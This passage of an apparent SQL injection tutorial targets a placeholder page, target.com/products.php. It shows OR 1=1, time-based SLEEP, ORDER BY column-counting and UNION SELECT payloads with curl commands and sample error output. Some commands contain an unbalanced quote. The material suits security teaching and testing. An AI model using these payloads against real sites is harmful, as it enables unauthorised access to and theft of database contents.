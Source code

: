 ```bash
babel@target:/var/www$ curl http://target.com/products.php?id=5' OR 1=1--
```

#### Time-Based Blind SQL Injection

Use the `SLEEP()` function in MySQL (or `WAITFOR DELAY` in SQL Server) to test if the query is being processed. If the server delays its response, it’s a strong indication of SQL injection.

**Payload (MySQL):**

```bash
http://target.com/products.php?id=5' OR IF(1=1, SLEEP(5), 0)--
```

#### Expected Behavior:

* **Response delayed by 5 seconds**: SQL injection confirmed.

#### Example Terminal Command:

```bash
babel@target:/var/www$ time curl http://target.com/products.php?id=5' OR IF(1=1, SLEEP(5), 0)--
```

### **Union-Based SQL Injection**

Union-based SQL injection combines the results of two or more `SELECT` statements. This allows attackers to extract data from different database tables.

#### Step 1: Identify the Number of Columns

To successfully execute a `UNION` query, the number of columns in both queries must match. Inject `ORDER BY` clauses incrementally until an error occurs, revealing the column count.

**Payload:**

```bash
http://target.com/products.php?id=5' ORDER BY 1--
http://target.com/products.php?id=5' ORDER BY 2--
http://target.com/products.php?id=5' ORDER BY 3--
```

#### Example Output:

```bash
SQL error: Unknown column '4' in 'order clause'
```

This tells us that the query has 3 columns.

#### Step 2: Inject a Union Query

Once the column count is known, the `UNION` query can be used to extract data from other tables.

**Example Payload:**

```bash
http://target.com/products.php?id=5' UNION SELECT 1,2,3--
```
